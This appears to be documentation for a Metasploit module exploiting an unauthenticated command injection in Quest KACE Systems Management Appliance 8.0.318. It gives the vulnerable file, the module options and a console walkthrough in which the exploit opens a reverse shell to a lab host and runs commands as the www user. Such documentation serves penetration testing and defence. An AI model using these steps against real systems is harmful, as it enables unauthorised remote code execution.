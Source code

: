 ## Description

  This module exploits a command injection vulnerability in Quest KACE
  Systems Management Appliance version 8.0.318 (and possibly prior).

  The `download_agent_installer.php` file allows unauthenticated users
  to execute arbitrary commands as the web server user `www`.


## Vulnerable Application
 
  [Quest KACE Systems Management Appliance](https://www.quest.com/products/kace-systems-management-appliance/) endpoint systems management solution.

  This module has been tested successfully on Quest KACE SMA K1000 version 8.0 (Build 8.0.318).


## Verification Steps

  1. Start `msfconsole`
  2. `use exploit/unix/http/quest_kace_systems_management_rce`
  3. `set ORGANIZATION <ORGANIZATION>` (default: `1`)
  4. `set AGENT_VERSION <AGENT_VERSION>` (default: `8.0.152`)
  5. `run`
  6. You should get a session


## Options

### AGENT_VERSION

  A valid Windows agent version must be specified. (default: `8.0.152`)

  If file sharing is enabled, the agent versions are available within the
  `\\kace.local\client\agent_provisioning\windows_platform` Samba share.

  Additionally, various agent versions are listed on the KACE website.

### ORGANIZATION

  Organization ID used within the appliance. (default: `1`)

### SERIAL

  Serial number for the appliance. By default, the module attempts to
  retrieve the serial from `/common/about.php`.


## Scenarios

  ```
  msf > use exploit/unix/http/quest_kace_systems_management_rce 
  msf exploit(unix/http/quest_kace_systems_management_rce) > set rhost 172.16.123.123
  rhost => 172.16.123.123
  msf exploit(unix/http/quest_kace_systems_management_rce) > check
  [*] 172.16.123.123:80 The target appears to be vulnerable.
  msf exploit(unix/http/quest_kace_systems_management_rce) > set ORGANIZATION 1
  ORGANIZATION => 1
  msf exploit(unix/http/quest_kace_systems_management_rce) > set AGENT_VERSION 8.0.152
  AGENT_VERSION => 8.0.152
  msf exploit(unix/http/quest_kace_systems_management_rce) > run

  [*] Started reverse TCP handler on 172.16.123.188:4444 
  [*] Sending payload (505 bytes)
  [+] Payload executed successfully
  [!] Tried to delete /tmp/agentprov/1#;/, unknown result

  492648046
  kYWSsqpLmmERqEpLazwFOTzulPvsvShY
  /kbox/kboxwww/common
  EfiuBIzdwhsSLfEpgHrRjbgjszjCkfhf
  ZGtYicImqwCnmUNGBZTpqDSPXojYXjkd
  jCmxJgLnffuOAlsAFmWygrbOhCWPCNzD
  id
  uid=80(www) gid=80(www) groups=80(www)
  uname -a
  FreeBSD k1000 11.0-RELEASE-p12 FreeBSD 11.0-RELEASE-p12 #0: Wed Aug  9 10:03:39 UTC 2017     root@amd64-builder.daemonology.net:/usr/obj/usr/src/sys/GENERIC  amd64
  ^C
  Abort session 1? [y/N]  y

  [*] 172.16.123.123 - Command shell session 1 closed.  Reason: User exit
  ```

